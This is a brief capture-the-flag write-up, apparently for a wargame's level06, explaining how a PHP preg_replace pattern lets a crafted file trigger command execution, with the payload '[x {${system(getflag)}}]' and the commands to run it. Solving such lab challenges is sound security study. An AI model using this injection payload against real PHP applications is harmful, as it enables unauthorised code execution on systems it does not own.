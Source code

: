 ## This level contains binary file and a PHP file. The binary actually executs PHP instructions which is in level06.php
## PHP code uses preg_replace function which is vulnerable to command injection
## In code, preg_replace try to match expression associated to this pattern : /(\[x (.*)\])/
## We create a file getflag in tmp directory which contains : [x {${system(getflag)}}]
## and we will run binary level06 passing this /tmp/getflag file in argument

### vim /tmp/getflag && ./level06 /tmp/getflag

### [x {${system(getflag)}}]

###:wq
